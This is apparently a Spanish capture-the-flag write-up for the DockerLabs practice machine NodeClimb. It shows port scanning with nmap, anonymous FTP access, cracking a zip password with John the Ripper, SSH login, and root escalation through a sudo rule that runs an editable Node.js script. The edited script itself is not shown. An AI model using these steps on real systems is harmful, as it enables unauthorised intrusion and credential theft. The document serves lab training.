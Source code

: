 ### Informe Técnico: Análisis de la máquina vulnerable **NodeClimb**

**Dificultad**: Fácil

**Objetivo**: **Escalada de privilegios y acceso root a la máquina vulnerable.**

---

#### **1. Despliegue de la máquina vulnerable**

Para comenzar, descargué la máquina **NodeClimb** desde DockerLabs. Para ello, se usa el siguiente comando para descomprimir la máquina:

```bash
unzip nodeclimb.zip
```

Una vez descomprimida, se puede desplegar ejecutando el script de instalación con privilegios de superusuario:

```bash
sudo bash auto_deploy.sh nodeclimb.tar
```


![Despliegue de la máquina](./Imágenes/2025-05-13_23-53.png)

---

#### **2. Confirmación de conexión a la máquina vulnerable**

Con el fin de confirmar que la máquina está corriendo y es accesible, realicé un **ping** a la dirección IP de la máquina vulnerable:

```bash
ping -c1 172.17.0.3
```

![Confirmación de conexión](./Imágenes/Capturas.png)

---

#### **3. Escaneo de puertos con Nmap**

A continuación, utilicé **Nmap** para realizar un escaneo de puertos abiertos en la máquina:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3 -oG allPorts.txt
```

Este escaneo reveló que los puertos 21 (FTP) y 22 (SSH) estaban abiertos.

![Escaneo de puertos](./Imágenes/Capturas_1.png)

---

#### **4. Extracción de puertos relevantes**

Utilizando un script personalizado llamado `extractPorts`, extraje los puertos relevantes y luego realicé un escaneo más exhaustivo para obtener información detallada, como las versiones de los servicios:

```bash
nmap -sC -sV -p21,22 172.17.0.3 -oN target.txt
```

El escaneo mostró que el servicio **FTP** permitía acceso mediante el usuario **Anonymous**, lo que nos dio acceso sin necesidad de credenciales.

![Escaneo exhaustivo](./Imágenes/Capturas_2.png)

---

#### **5. Acceso al servicio FTP**

Con el usuario **Anonymous**, ingresé al servicio FTP sin necesidad de contraseña:

```bash
ftp 172.17.0.3
# Usuario: Anonymous
# Contraseña: Enter
```

Una vez dentro, listé los archivos con el comando `ls -la` y encontré un archivo **.zip** llamado `secretitopicaron.zip`. Lo descargué a mi máquina local usando el comando:

```bash
get secretitopicaron.zip
```

![Acceso FTP](./Imágenes/Capturas_3.png)

---

#### **6. Cracking de la contraseña del archivo ZIP**

Al intentar descomprimir el archivo `secretitopicaron.zip`, me pidió una contraseña. Usé la herramienta **John the Ripper** para crackear la contraseña.

**Paso 1: Extraer el hash del archivo ZIP**

```bash
zip2john secretitopicaron.zip > hash.txt
```

Esto convierte el archivo ZIP cifrado en un hash que John the Ripper puede procesar.

**Paso 2: Crackear el hash usando un diccionario (en este caso, `rockyou.txt`)**

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

**Paso 3: Mostrar la contraseña**

```bash
john --show hash.txt
```

John encontró que la contraseña del archivo ZIP es **password1**.

![Cracking de contraseña](./Imágenes/Capturas_4.png)

![Archivo password.txt](./Imágenes/Capturas_5.png)



---

#### **7. Descompresión y análisis del archivo `password.txt`**

Una vez que se obtuvo la contraseña, descomprimí el archivo ZIP con éxito. Dentro encontré un archivo llamado **password** con las siguientes credenciales:

```
usuario: mario
contraseña: laKontraseñAmasmalotaHdelbarrioH
```

Suponiendo que estas son las credenciales para el servicio **SSH**, intenté iniciar sesión en el servicio **SSH**.

**Nota**: Antes, intenté realizar un ataque de **fuerza bruta** con **Hydra** en el servicio SSH sin éxito.

![Escalada de privilegios](./Imágenes/Capturas_6.png)

---

#### **8. Acceso al servicio SSH**

Con las credenciales obtenidas (`mario:laKontraseñAmasmalotaHdelbarrioH`), accedí exitosamente al servicio SSH:

```bash
ssh mario@172.17.0.3
```

Una vez dentro, ejecuté el siguiente comando para verificar si tenía privilegios de **sudo** sin necesidad de contraseña:

```bash
sudo -l
```

Esto reveló que el usuario **mario** tiene acceso sin contraseña a ejecutar el siguiente comando:

```
(ALL) NOPASSWD: /usr/bin/node /home/mario/script.js
```

---

#### **9. Escalada de privilegios con Node.js**

Con esta información, me dirigí al directorio donde se encontraba el script (`/home/mario`) y lo edité. El script tenía permisos suficientes para ser ejecutado con **sudo**, lo que me permitió ejecutar el siguiente comando para obtener privilegios de **root**:

```bash
sudo node /home/mario/script.js
```

Luego, ejecuté:

```bash
bash -p
```

Esto abrió una terminal con privilegios **root**, completando así la escalada de privilegios.

---

### **Resumen**

* **Acceso inicial**: FTP con usuario **Anonymous**.
* **Descarga y análisis**: El archivo ZIP `secretitopicaron.zip` contiene credenciales para SSH.
* **SSH y privilegios de sudo**: El usuario **mario** puede ejecutar un script con **sudo** sin contraseña.
* **Escalada de privilegios**: Ejecución del script de Node.js para obtener acceso root.

Este informe describe el proceso completo de explotación de la máquina **NodeClimb** y la escalada de privilegios para obtener acceso root.
